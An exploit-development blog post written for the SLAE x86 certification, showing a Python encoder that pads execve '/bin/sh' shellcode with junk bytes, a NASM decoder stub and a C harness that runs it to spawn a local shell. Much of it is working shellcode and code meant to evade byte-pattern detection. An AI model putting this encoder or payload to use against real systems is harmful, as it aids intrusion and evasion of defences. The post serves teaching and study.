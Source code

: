 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding process. This byte will be ```\xde```.

```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ python encoder.py
0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2,

add \xde at the end
```
Okay so now we have our output. Let's write the decoder stub. The idea is to essentially skip the two bytes added, and eliminate them to arrive at our decoded shellcode:
```nasm
; SLAE Assignment 4: Custom Decoder (Linux/x86)
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text

_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx

decode:
	mov bl, byte [esi + eax]
	xor bl, 0xde
	jz short EncodedShellcode
	mov bl, byte [esi + eax + 2]
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short decode


call_shellcode:

	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2, 0xde
```
The address of our encoded shellcode is first popped into ```esi``` using the ```JMP-CALL-POP``` technique. ```edi``` is loaded with the address of the second byte. A counter is initialized with ```eax```, which will be used to keep track of the closest byte next.

The second byte is then stored in ```ebx```, and the instruction after that runs a check for whether we have reached the end. In that case, we jump and pass execution. Otherwise, we move the value of the next important byte in ```ebx```, which is at ```[esi + eax + 2]```. This is because we have two junk bytes. We move the important byte in place of the second byte, and we increment the counter that keeps track of the important bytes.

We add 3 to the counter that keeps track of the closest byte next, and we continue this process until the end is reached.

Alright! Let's extract this shellcode and test it out. Pay close attention to the ```objdump``` command though:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ objdump -d ./decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde"
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde";
main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
Let's compile and run this:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
shellcode.c:6:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    6 | main()
      | ^~~~
kali@kali ~/Desktop/SLAEx86_Assignments/assignment4 $ ./shellcode
Shellcode Length:  112
$
```
And our shell executes!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
